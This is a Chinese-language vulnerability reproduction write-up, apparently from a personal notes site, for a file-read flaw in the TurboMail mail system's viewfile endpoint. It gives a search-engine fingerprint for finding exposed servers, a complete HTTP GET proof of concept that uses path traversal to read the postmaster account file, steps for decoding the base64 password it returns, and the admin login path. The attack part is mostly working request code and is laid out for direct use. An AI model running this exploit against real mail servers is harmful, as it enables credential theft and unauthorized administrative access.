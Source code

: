 # TurboMail 邮件系统 viewfile 文件读取漏洞

# 一、漏洞简介
广州拓波软件科技有限公司TurboMail 邮件系统 viewfile 文件读取漏洞，攻击者可通过此漏洞读取账户密码，从而登录后台进一步利用。

# 二、影响版本
+ TurboMail 邮件系统 

# 三、资产测绘
+ hunter`web.body="maintlogin.jsp" && web.body="/mailmain?type=logout"`
+ 特征

![1703260614409-67417cea-6ca3-44cc-ad4a-9ef98c998a10.png](./img/6F2qdw-ilKskSp6w/1703260614409-67417cea-6ca3-44cc-ad4a-9ef98c998a10-727801.png)

# 四、漏洞复现
1. 通过poc读取账号密码

```java
GET /viewfile?type=cardpic&mbid=1&msgid=2&logtype=3&view=true&cardid=/accounts/root/postmaster&cardclass=../&filename=/account.xml HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: Blade-Auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJpc3MiOiJpc3N1c2VyIiwiYXVkIjoiYXVkaWVuY2UiLCJ0ZW5hbnRfaWQiOiIwMDAwMDAiLCJyb2xlX25hbWUiOiJhZG1pbmlzdHJhdG9yIiwicG9zdF9pZCI6IjExMjM1OTg4MTc3Mzg2NzUyMDEiLCJ1c2VyX2lkIjoiMTEyMzU5ODgyMTczODY3NTIwMSIsInJvbGVfaWQiOiIxMTIzNTk4ODE2NzM4Njc1MjAxIiwidXNlcl9uYW1lIjoiYWRtaW4iLCJuaWNrX25hbWUiOiLnrqHnkIblkZgiLCJ0b2tlbl90eXBlIjoiYWNjZXNzX3Rva2VuIiwiZGVwdF9pZCI6IjExMjM1OTg4MTM3Mzg2NzUyMDEiLCJhY2NvdW50IjoiYWRtaW4iLCJjbGllbnRfaWQiOiJzYWJlciJ9.UHWWVEc6oi6Z6_AC5_WcRrKS9fB3aYH7XZxL9_xH-yIoUNeBrFoylXjGEwRY3Dv7GJeFnl5ppu8eOS3YYFqdeQ
Upgrade-Insecure-Requests: 1
```

![1703260773166-a588ef0c-2a56-4b0b-bb52-4e57d2f18feb.png](./img/6F2qdw-ilKskSp6w/1703260773166-a588ef0c-2a56-4b0b-bb52-4e57d2f18feb-271259.png)

2. 密码为base64加密，去掉=号后面解密

```java
Y2hlbHNlYTUzMDUzNjQ5NQ=3D=3D
Y2hlbHNlYTUzMDUzNjQ5NQ
```

![1703261028456-e47d326e-0092-4521-a34c-e8cae2a8a7ca.png](./img/6F2qdw-ilKskSp6w/1703261028456-e47d326e-0092-4521-a34c-e8cae2a8a7ca-482506.png)

3. 通过获取到的账号密码登录系统

```java
/maintlogin.jsp
```

![1703261079028-7b0ea268-948d-4b03-ada0-7aa983833032.png](./img/6F2qdw-ilKskSp6w/1703261079028-7b0ea268-948d-4b03-ada0-7aa983833032-995619.png)

![1703261120667-59e7ac2f-9576-4846-8ff1-8c6e94414883.png](./img/6F2qdw-ilKskSp6w/1703261120667-59e7ac2f-9576-4846-8ff1-8c6e94414883-426450.png)



> 更新: 2024-02-29 23:57:46  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ca5k7x5pqtitv191>